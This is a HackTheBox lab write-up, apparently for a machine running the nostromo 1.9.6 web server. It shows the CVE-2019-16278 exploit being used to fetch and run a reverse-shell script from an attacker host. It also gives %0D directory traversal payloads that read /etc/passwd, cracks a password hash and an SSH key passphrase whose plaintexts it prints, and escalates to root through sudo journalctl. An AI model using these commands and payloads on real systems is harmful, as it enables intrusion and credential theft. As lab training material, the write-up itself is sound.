


 
## Reconnaissance

### nmap 


### Web Service 


### nostromo 1.9.6

> With nmap result, search exploit code for nostromo 1l.9.6

```
searchsploit nostromo | grep 1.9.6
```


> But this exploit code will response error about the input type.
> I didn't take too much time on this one.


> Just find some other exploit code from Github

- Failed one 
- [(GITHUB)CVE-2019-16278 - Nostromo 1.9.6 RCE](https://github.com/aN0mad/CVE-2019-16278-Nostromo_1.9.6-RCE)


- Success one
- [(GITHUB)CVE-2019-16278](https://github.com/AnubisSec/CVE-2019-16278) 

```
python nostroSploit.py 10.129.230.8 whoami
```


## Exploit 

### Revers Shell 

> With the exploit code, I can create a reverse shell.
> At first, I tried to build the shell by executing bash directly, but it failed
> So I upload a reverse shell file 
> and execute it, and ... it works 


```
python nostroSploit.py 10.129.230.8 "wget http://10.10.17.145:9797/shell.sh -O /tmp/shell.sh"
```


```
python nostroSploit.py 10.129.230.8 "chmod +x /tmp/shell.sh"
```


```
python nostroSploit.py 10.129.230.8 "/bin/bash /tmp/shell.sh"
```


> Get shell


> Confirm current user, only got the web service user permission 

```
id
whoami
```


## Privilege Escalation  to user david

> Confirm sudo permission, but it need password

```
sudo -l
```


> Start to enumerate by linpeas
> Sudo version seems exploitable

> Basic environment information 


> Existing CVEs


> Interesting file in /var/nostromo/conf
> It disclose david's credential, I recorded it for cracking by hashcat later


> Folloing this directory, I check all the contents in /nostromo


> This configure file is interesting one


> Research about the information related to nhttpd.conf
> I know if the developer set up the value for HOMEDIRS, then it's able to be accessed by :

```
http://<nostromo domain>/~<user>/
```
> And developer can restrict the access within the home directories to a single sub directory by  defining it via the homdirs_public option


> So, I  know there is an option for HOMEDIRS
> It points to /home and it also specific a directory name 'public_www' in homedirs_public


> Then following the official guideline, I access to the following URL 
> It do have this page, but it's private space

```
http://10.129.230.8/~david
```


> Then I tried to access other file maybe in this directory, but none of them work.


> And one thing just come out in my mind.
> The exploit code I used above, I didn't research it too much at first.
> I just check the exploit code and research it, then I found that is a directory traversal vulnerability.

- [CVE-2019-16278](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16278)
- [CVE-2019-16278 - Unauthenticated Remote Code Execution in Nostromo web server](https://www.sudokaikan.com/2019/10/cve-2019-16278-unauthenticated-remote.html)

> In this analysis, there is a past cve (CVE-2011-0751) also caused by Directory Traversal


- [CVE-2011-0751](https://nvd.nist.gov/vuln/detail/CVE-2011-0751)


> I tried the origin directory traversal first.
> I think it might possible to access but I need to adjust the input in request
```
/~david/..%2f..%2f..%2f..%2fetc/passwd
```


> And the CVE-2019-16278 just change the payload with %0D.


> Since the code for checking the header by **http_verify()**, the header is URL decoded and then check for the existing of **/../**
> if the header now will be: **/.\r./.\r./.\r./.\r./bin/sh**.


> If pass the checking code, it will process the header with **http_proc()**.


>The root cause is here, in the function **http_header()**, it parses the header by the function **strcutl()**.
>Take a look inside the function **strcutl()**, you can see it take a string and return it with **\r** (carriage return) is cut off.




> Now the path is  **/../../../../bin/sh**. So, the path traversal part is done, how it can be executed?  
> Because of the function **execve()** in the function **http_proc()**. It executes **rh->rq_filef**, which is indeed the path **/../../../../bin/sh**.


> With above analysis.
> So, I tried the following

```
/~david/.%0D./user.txt
```
> The file is accessible by this payload, but I don't have permission.


> Then I need to use this kind of payload to find which file I can check.
> With previous nostromo configuration file, I think ~david will point to /home/david/public_www
> but I have tried to check the last directory from public_www to find ssh key or flag. 
> none of them are work.
> Using the following payload, I can read /etc/passwd

```
http://10.129.230.15/~david/.%0D./.%0D./.%0D./.%0D./etc/passwd
```


> So far, I haven't idea how to know which file I can access in public_www
> But with the previous enumeration by linpeas
> I got this credential 

```
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```


> Using the following to crack it 

```
hashcat -m 500 david.hash /usr/share/wordlists/rockyou.txt
```


> Get password

```
david / Nowonly4me
```


> Try this password on SSH login --> Failed 



> Back to reverse shell, like previous enumeration show, 
> I know the page I can access from browser for nostromo is /home/david/public_www
> I have tried to list /home/david first but it failed with permission 


> And I know there is must a directory name public_www
> i tried to access it in reverse shell.
> ok, I can check the content.
> There is a suspicious file - protected-file-area


> Since it must in web service, I can download it by access from browser
> It will ask credential 
> I can use the following 

```
david / Nowonly4me
```


> Then I can find a tar.gz file.
> Download it.


> Decompress it, there are some openssh key, for david


> Try to login with this key by ssh
> It will ask passphrase


> Crack the key file by john 

```
ssh2john id_rsa > davidssh.hash
```


> Got the passpharse
```
john davidssh.hash --wordlist=/usr/share/wordlists/rockyou.txt
```
```
david / hunter
```


> Login to ssh by david


> Get user flag 


## Privilege Escalation to root

> Enumerate with user david to find a path to escalate to root 
> Check sudo permission, fail with correct password for david


> Check david's directory

1. user flag
2. public_www (there are david's ssh key files)
3. bin (suspicious file)


> Check directory bin, 2 files 

1. server-stats.sh 
2. server-stats.head


> Check shell file 
> it will read content from server-stats.head 
> then it will echo and execute some command.
> I found the most possible to escalate point is - jorunalctl


> I also check the content of server-stats.head
> It's kind of banner


> Execute the shell script
> it will list the last 5 lines of log by jorunalctl 


> In GTFobins, there is a way to escalate to root

- [(GTFObins)journalctl](https://gtfobins.github.io/gtfobins/journalctl/)


> I decide to follow the content of shell script to execute jorunalctl

```
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
```

> Then execute 

```
!/bin/bash
```


> I got root permission 


> Got root flag 


## Reference 

### nostromo

- [(GITHUB)CVE-2019-16278](https://github.com/AnubisSec/CVE-2019-16278) 
- [(ExploitDB)nostromo 1.9.6 - Remote Code Execution](https://www.exploit-db.com/exploits/47837)
- [(GITHUB)CVE-2019-16278 - Nostromo 1.9.6 RCE](https://github.com/aN0mad/CVE-2019-16278-Nostromo_1.9.6-RCE)
- [CVE-2019-16278](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16278)
- [CVE-2019-16278 - Unauthenticated Remote Code Execution in Nostromo web server](https://www.sudokaikan.com/2019/10/cve-2019-16278-unauthenticated-remote.html)
- [CVE-2011-0751](https://nvd.nist.gov/vuln/detail/CVE-2011-0751)
- [nostromo Introduction](https://www.nazgul.ch/dev_nostromo.html)
- [NHTTPD man page](https://www.nazgul.ch/dev/nostromo_man.html)
- [Nostromo Directory Traversal Remote Command Execution](https://blog.pentesteracademy.com/nostromo-directory-traversal-remote-command-execution-64481cea6447)
- [Nostromo Hacking Notes](https://book.dragonsploit.com/web-application-testing/nostromo)
- [nostromo nhttpd directory traversal leading to arbitrary command execution](https://www.redteam-pentesting.de/en/advisories/rt-sa-2011-001/-nostromo-nhttpd-directory-traversal-leading-to-arbitrary-command-execution)
- [(GITHUB)Exploit Code](https://github.com/sudohyak/exploit/blob/master/CVE-2019-16278/exploit.py)
### Directory Traversal 

- [Linux Path Traversal Cheatsheet](https://gist.github.com/SleepyLctl/63a2da730a3d5abce5013f0f510b1fe2)
### SSH 

- [Cracking SSH Private key passphrase](https://medium.com/the-padlock/cracking-ssh-private-key-passphrase-459ba17e8d5d)
### Privilege Escalation

- [(GTFObins)journalctl](https://gtfobins.github.io/gtfobins/journalctl/)

### Decomperss - tar

- [GNU / Linux 各種壓縮與解壓縮指令](https://note.drx.tw/2008/04/command.html)

###### tags: `HackTheBox`